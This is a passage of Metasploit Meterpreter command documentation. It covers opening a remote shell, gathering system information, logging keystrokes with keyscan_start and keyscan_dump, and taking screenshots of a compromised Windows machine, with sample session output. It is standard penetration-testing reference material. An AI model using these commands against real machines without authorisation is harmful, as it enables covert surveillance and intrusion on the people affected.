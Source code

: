 The `shell` command allows you to interact with the remote machine's
command prompt. Example:

```
meterpreter > shell
Process 3576 created.
Channel 6 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\user\Desktop>
```

To switch back to Meterpreter, do [CTRL]+[Z] to background the channel.

**sysinfo command**

The `sysinfo` command shows you basic information about the remote
machine. Example:

```
meterpreter > sysinfo
Computer        : WIN-6NH0Q8CJQVM
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/win32
meterpreter >
```

**keyscan_start**

The `keyscan_start` command starts the keylogging feature on the remote
machine.

**keyscan_dump**

The `keyscan_dump` command is a keylogger feature. You must use the
`keyscan_start` command before using this. Example:

```
meterpreter > keyscan_start
Starting the keystroke sniffer...
meterpreter > keyscan_dump
Dumping captured keystrokes...
Hello World!!
```

If you wish to stop sniffing, use the `keyscan_stop` command.

**keyscan_stop**

The `keyscan_stop` command stops the keylogger.

**screenshot**

The `screenshot` command takes a screenshot of the target machine.


[railgun]: https://github.com/rapid7/metasploit-framework/wiki/How-to-use-Railgun-for-Windows-post-exploitation